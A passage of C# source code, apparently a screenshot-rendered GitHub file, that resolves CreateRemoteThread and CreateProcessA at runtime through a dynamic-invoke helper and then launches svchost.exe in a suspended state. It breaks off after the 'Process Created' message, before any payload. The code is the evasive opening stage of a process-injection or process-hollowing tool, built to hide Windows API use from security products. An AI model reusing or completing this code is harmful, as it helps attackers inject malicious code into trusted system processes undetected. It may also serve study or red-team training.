 ```csharp
            Structs.ProcessCreationFlags
            dwCreationFlags,
            IntPtr lpEnvironment,
            string lpCurrentDirectory,
            [In] ref Structs.STARTUPINFO lpStartupInfo,
            out Structs.PROCESS_INFORMATION lpProcessInformation);
	}
	class Program
	{
		public static IntPtr CreateRemoteThread(
			IntPtr hProcess, 
			IntPtr lpThreadAttributes, 
			uint dwStackSize, 
			IntPtr lpStartAddress, 
			IntPtr lpParameter, 
			uint dwCreationFlags, 
			out IntPtr lpThreadId)
		{
			lpThreadId = IntPtr.Zero;
			object[] funcargs =
			{
				hProcess, lpThreadAttributes, dwStackSize, lpStartAddress, lpParameter, dwCreationFlags, lpThreadId
		    	};
		 	IntPtr retValue = (IntPtr)DynamicInvoke.Generic.DynamicApiInvoke("kernel32.dll", "CreateRemoteThread", typeof(Delegates.CreateRemoteThread), ref funcargs);
			lpThreadId = (IntPtr)funcargs[6];
			return retValue;
		}
		public static Boolean CreateProcess(
			string lpApplicationName, 
			string lpCommandLine, 
			ref Structs.SECURITY_ATTRIBUTES lpProcessAttributes, 
			ref Structs.SECURITY_ATTRIBUTES lpThreadAttributes, 
			bool bInheritHandles, 
			Structs.ProcessCreationFlags dwCreationFlags, 
			IntPtr lpEnvironment, 
			string lpCurrentDirectory, 
			ref Structs.STARTUPINFO lpStartupInfo, 
			out Structs.PROCESS_INFORMATION lpProcessInformation)
		{
			lpProcessInformation = new Structs.PROCESS_INFORMATION();
			object[] funcargs =
			{
				lpApplicationName, lpCommandLine, lpProcessAttributes, lpThreadAttributes, bInheritHandles, dwCreationFlags, lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation
		    	};
			Boolean retValue = (Boolean)DynamicInvoke.Generic.DynamicApiInvoke("kernel32.dll", "CreateProcessA", typeof(Delegates.CreateProcess), ref funcargs);
			lpProcessInformation = (Structs.PROCESS_INFORMATION)funcargs[9];
			return retValue;
		}
		public static void Main()
		{
			Structs.STARTUPINFO si = new Structs.STARTUPINFO();
			Structs.PROCESS_INFORMATION pi = new Structs.PROCESS_INFORMATION();
			Structs.SECURITY_ATTRIBUTES lpa = new Structs.SECURITY_ATTRIBUTES();
			Structs.SECURITY_ATTRIBUTES lta = new Structs.SECURITY_ATTRIBUTES();
			bool succ = CreateProcess(null, "C:\\windows\\system32\\svchost.exe", ref lpa, ref lta, false, Structs.ProcessCreationFlags.CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);
			if (succ)
			{
				Console.WriteLine("[+] Process Created");
```